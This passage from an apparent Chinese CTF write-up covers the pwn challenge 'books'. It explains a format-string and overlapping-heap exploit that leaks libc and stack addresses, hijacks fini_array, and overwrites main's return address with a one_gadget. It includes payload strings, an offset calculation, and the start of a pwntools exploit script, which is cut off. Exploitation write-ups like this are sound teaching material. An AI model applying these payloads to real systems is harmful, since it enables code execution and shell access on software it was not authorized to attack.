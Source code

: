 泄露 libc 地址和劫持 fini_array payload 目前构造：

```python
payload1 = "%2617c%13$hn" + '|' + "%14$s"
payload1 = payload1.ljust(0x74,'a').ljust(0x88,'\x00')
payload1 += p64(0x151)		
edit(1,payload1)
```

#### 修改 main 函数返回地址

到这里我们就获取了 libc_base 地址并且进入了第二次的 main 函数。下一步就是如何利用了。

就 free got 表改为 onegadget ？在这里不行，因为修改玩之后需要触发，也就是再一次进入 main 函数触发 free 函数。第二次进入 main 函数实际上是在 \_\_libc_csu_fini 这个退出函数中调用 fini_array 数组中存储的函数（main），当执行完 main ，就会继续完成退出函数，然后正常退出程序。

这里有两个思路：

1. 同第一次 mian 中，泄露出栈地址，通过调试获取到第二次 main 的返回地址与泄露栈地址的偏移，就可以获取到 main rip 的栈地址，我们对此进行修改。
2. 修改退出函数当中某个函数的 got 表，当完成退出函数调用这个函数就会 getshell。

第二种思路是有几次比赛出现过这种利用方法，但没有在这道题目上尝试，主要是太费劲了。这道题就用第一种方法，就是需要我们泄露出 栈地址 ，然后因为栈结构固定，所以通过偏移算出第二 main 函数的返回地址。

通过调试查看第一个 main 函数的栈空间结构体：

![](https://mrskye.cn-gd.ufileos.com/img/2020-08-06-7YehpeGp46LWyAuO.png)

 在格式化字符串的时候把这个地址也泄露出来：

```python
payload1 = "%2617c%13$hn" + '|' + "%14$s" + '-' + "%24$p"
payload1 = payload1.ljust(0x74,'a').ljust(0x88,'\x00')
payload1 += p64(0x151)		
edit(1,payload1)
```

再次通过调试找到第二次 main 函数返回地址，然后计算固定偏移：

```python
0x7ffea45d8980-0x7ffea45d887a=0x106
```

所以得出计算公式：

```python
# ret_addr 为泄露地址
attack_addr = ret_addr - 0x106
```

第二次进入 main 函数的利用思路就出来了，和第一次进入一样，先释放 chunk2 造成 overlapping 堆重叠，控制 dest 内容从而控制格式化字符串内容。利用格式化字符串修改第二次 main 函数的返回地址为 onegadget 。

### exp

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Author  : MrSkYe
# @Email   : skye231@foxmail.com
# @File    : books.py
from pwn import *
context.log_level = 'debug'
p = process("./books")
elf = ELF("./books")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

def command(cmd):
    p.recvuntil("5: Submit\n")
    p.sendline(str(cmd))
def edit(cmd,content):
    command(cmd)
```